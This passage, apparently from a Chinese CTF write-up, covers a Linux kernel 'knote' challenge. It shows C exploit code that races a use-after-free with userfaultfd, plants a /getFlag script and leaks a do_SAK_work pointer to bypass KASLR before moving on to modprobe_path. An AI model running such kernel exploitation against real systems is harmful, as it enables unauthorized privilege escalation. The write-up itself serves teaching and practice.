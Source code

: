 ```c
    faultBuffer = (char*)mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    registerUserFaultFd(faultBuffer, 0x1000, (void*)fault_handler_thread);

    int shellFile = open("/getFlag", O_RDWR | O_CREAT);
    char* shellCode = "#!/bin/sh\n"
                      "chmod 777 /flag";
    write(shellFile, shellCode, strlen(shellCode));
    close(shellFile);
    system("chmod +x /getFlag");

    fd = open("/dev/knote", O_RDWR);
    add(TTY_STRUCT_SIZE);
    int pid = fork();
    if(pid < 0)
        errExit("Fork failed");
    else if(pid == 0){
        puts(GREEN "Child process sleeping..." CEND);
        sleep(2);
        puts(GREEN "Ready to delete note in child process..." CEND);
        dele(0);
        sleep(1);
        puts(GREEN "Ready to open /dev/ptmx in child process..." CEND);
        open("/dev/ptmx", O_RDWR);
        exit(0);
    }else
        get(0, faultBuffer);
    print_binary(faultBuffer, TTY_STRUCT_SIZE);
}
```

![](8.png)
上图就是通过``userfaultfd``阻塞后获取到的部分内存内容，可以发现虽然``/dev/ptmx``打开之后分配了``ptm_unix98_ops``和``pty_unix98_ops``，但是并没有出现``tty_operations``中特有的魔数。

![](9.png)
但是在``0x2B0``的偏移处我们发现了一个可疑的值：``0xffffffff91bd4ef0``。为什么说这个值很可疑呢？如果我们使用``cat /proc/kallsyms``命令获取标识符的地址时不难发现，绝大多数内核的标识符地址都是以8个f开头的，而在我们获取到的地址中只有这一个值前面跟上了8个f，因此我们有理由怀疑这个地址有可能是某个标识符的地址，而不需要对我们获取的其他值通过
``cat /proc/kallsyms | grep xxx``来进行查找了。从上面的图中我们也可以看到，这个值也确实是一个标识符的值：``do_SAK_work``，我们不需要管这个标识符的作用是什么，但通过这个标识符我们就已经能够获取到内核的基址，绕过KASLR保护了。

![](10.png)
在IDA中，我们可以获取到``do_SAK_work``在未KASLR时的地址。

![](11.png)
<font color=red>**需要注意的是，本题中``do_SAK_work``这个地址并不是每一次都会出现，而且有可能尝试很多次都是什么都没有读取到，需要进行多次尝试才能获取该地址。**</font>

## 2. 通过``modprobe_path``进行利用
在获取了内核的基地址之后，我们就需要使用一个新的利用方式——``modprobe_path``来进行后面的利用了。

